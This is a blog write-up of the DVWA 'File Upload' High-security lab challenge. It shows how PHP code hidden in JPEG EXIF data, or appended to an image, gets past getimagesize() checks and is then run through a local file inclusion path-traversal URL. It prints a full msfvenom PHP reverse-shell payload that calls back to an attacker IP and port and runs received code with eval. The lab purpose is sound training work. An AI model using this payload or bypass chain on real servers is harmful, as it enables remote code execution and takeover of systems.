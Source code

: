 ```yaml
---
layout: post
title:  "DVWA File Upload"
subtitle: "Damn Vulnerable Web Application"
date:   2017-03-05 13:00:00 -0500
author: "coastal"
header-img: "images/site-resources/dvwa-header.jpg"
---
```

I haven't been able to make much progress with these as I have been traveling for the past week. However I found a little time to finish the File Upload Vulnerability challenge. The "Low" challenge simply allowed us to upload our webshell and the "Medium" made us change the mime-type to "image/jpeg" in the ```POST``` request to the server with our webshell php file unobfuscated as the upload. Let's dive into the "High" challenge, was it was a little more involved and a lot more interesting.

# Security: High
First, let's take a look at the challenge source to see what changes have been made vs the earlier challenges:

```
// Where are we going to be writing to?
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

// File information
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

// Is it an image?
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
    ( $uploaded_size < 100000 ) &&
    getimagesize( $uploaded_tmp ) ) { 
```

Aha, so we have some server-side checking to ensure that the uploaded file is indeed an image. This time it is more involved that just checking the file-extension, and the php function ```getimagesize``` is invoked. Looking up the function, it doesn't seem like there are any exploits to pass non-image files through it (barring a 0-day which I most certainly don't have).

However, while researching bypass techniques I discovered a technique to hide php code in the EXIF data of the image file. When the image is loaded by the page, the php tags located in the headers are interpreted as php code and run by the server. So by crafting a script, we can test our RCE by implanting it in a document with random data to emulate headers from a JPEG file.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/php-include-jpeg-php.jpg">

Here we insert the ```phpinfo();``` pop into the random data and upload it to the server. Then when we test accession  the file (interpreting it as php):

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/php-include-phpinfo-pop.jpg">

We see that the php code is parsed from the random data and executed by the interpreter. Now let's try to run the exploit remotely on the webserver by embedding the ```phpinfo();``` pop into the ```DocumentName``` header of a random JPEG image.

```
exiftool -DocumentName="<?php phpinfo(); die(); ?>" sea.jpeg
```

```exiftool``` is a great command-line tool for editing the EXIF tag metadata for image files. We have modified the ```DocumentName``` header value to hold our script. Let's run it locally from the terminal to make sure that it runs:

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/exif-implant.jpg">

Ah, unfortunately for us, it looks like a parsing error has arisen far into the JPEG's byte-data. It looks like the ```die();``` call didn't actually stop the interpreter from searching through the rest of the file for php code. Looking a little further into this, there appears to be a function made mainly for debugging called ```__halt_compiler();```. This method supposedly stops the interpreter from compiling any of the code following the method call. Let's see if that can remedy our parsing issue.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/halt-compiler-vs-die.jpg">

Alright it looks like that did indeed fix the issue. Next we upload the file to the server. As the image is valid and can pass through ```getimagesize()``` without issue, our script is now sitting on the server waiting to be executed. Next, we set the security level back to low and execute our Local File Inclusion vulnerability at ```192.168.56.101/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/sea-exif.jpeg```.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/exif-phpinfo-pop.jpg">

Wicked, we've got remote code execution on the server! Now let's try to throw a shell into the EXIF header and fully own the system.

```
exiftools -DocumentName='/*<?php /**/ error_reporting(0); $ip = "192.168.56.102"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();'
```

I grabbed this payload from the ```msfvenom``` reverse_tcp payload (modifying the ip and port values to match my attacking box). Here we manually throw it in the EXIF data and upload the backdoored image to the webserver. When we access it with the LFI vulnerability:

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/exif-reverse-shell-success.jpg">

Boom, we have a meterpreter shell!

## Alternate Approach: Shell Append

Apparently, while not in use here, there are some upload sanitation techniques that include scanning the EXIF headers for php shells. Maybe we can use another technique that could potentially bypass this sanitation approach as well:

```
echo "<?php phpinfo(); ?>" >> sea.jpeg
```

This concatenation to the end of the image file is actually the standard way that ```msfvenom``` packages tcp reverse shells with image files.

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/phpinfo-append.jpg">

When we upload our modified jpeg and access it with our LFI vulnerability:

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/phpinfo-pop.jpg">

Awesome! We are able to get the phpinfo to pop. Looks like we have RCE! Now let's leverage this to get a remote shell on the webserver. Metasploit makes the packaging a breeze, but we could also just use our ```cat``` call technique to throw our old payload onto the end of the image. If we were to do that we could also get rid of the ```__halt_compiler();``` call as we will be at the end of the file and don't need to worry about php parsing errors with the remaining bytes in the image file. 

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/msfvenom-jpg-reverse-tcp.jpg">

Next let's set up the handler to catch the reverse shell from the webserver

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/reverse-shell-handler.jpg">

And finally, let's use the file-inclusion vulnerability on the "Low" security setting to make sure that our file is passed to ```include()``` and our webshell is fired off by heading to 

```
http://192.168.56.101/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/sea-exif.jpeg
```

<img src="{{ site.baseurl }}/images/dvwa/03_file_upload/reverse-shell-catch.jpg">

And we got it! For the next steps, we could try to use privilege escalation to get root, but for now this works as a PoC. I know I'm not too familiar with the meterpreter shell commands...that is something I will be working on in the near future. 
